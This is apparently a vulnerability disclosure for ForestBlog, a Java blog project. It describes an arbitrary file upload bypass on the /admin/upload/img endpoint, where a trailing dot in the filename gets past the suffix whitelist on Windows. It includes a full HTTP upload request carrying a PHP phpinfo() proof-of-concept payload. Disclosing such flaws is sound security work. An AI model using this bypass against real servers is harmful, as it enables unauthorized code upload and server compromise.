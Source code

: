 **BUG_Author:**

Daydust

**Vendor:**

https://github.com/saysky/ForestBlog

**Software:**

https://github.com/saysky/ForestBlog

**Vulnerability File:**

ForestBlog-master/ForestBlog/src/main/java/com/liuyanzhao/ssm/blog/controller/admin/UploadFileController.java

**Description:**
ForestBlog Exists Arbitrary File Upload Vulnerability on /admin/upload/img Interface

When the code processes the logic of file upload, the character after the last dot is used as the suffix name, and a series of judgment danger detection is performed on the suffix name

![image-20231212223542659](/img/image-20231212223542659.png)

In Windows system, we can upload any file by adding a "." after the file's name.In this case, the suffix value becomes a period, and allowSuffix contains a period, thus bypassing whitelist suffix detection

![image-20231212235628456](/img/image-20231212235628456.png)





![image-20231212235938258](/img/image-20231212235938258.png)



```http
POST /admin/upload/img HTTP/1.1
Host: 172.21.64.185:8090
Content-Length: 217
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.0.0 Safari/537.36
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarysCaHQits7v3jAaOh
Origin: http://172.21.64.185:8090
Referer: http://172.21.64.185:8090/admin/user/edit/5
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: username=admin; password=123456; JSESSIONID=BB01F841CB10B9619AC5D0A1D363F4FD
Connection: close

------WebKitFormBoundarysCaHQits7v3jAaOh
Content-Disposition: form-data; name="file"; filename="aa.php."
Content-Type: application/octet-stream

<?php phpinfo();?>
------WebKitFormBoundarysCaHQits7v3jAaOh--

```

When uploading, the corresponding address will be displayed, or right click on the saved avatar file, you can see the full address. Windows automatically deletes the dot at the end of the file. Therefore, delete the dot at the end of the file to successfully access the file。

![image-20231213000618896](/img/image-20231213000618896.png)

You can also see that our files were successfully uploaded locally

![image-20231213000645385](image-20231213000645385.png)
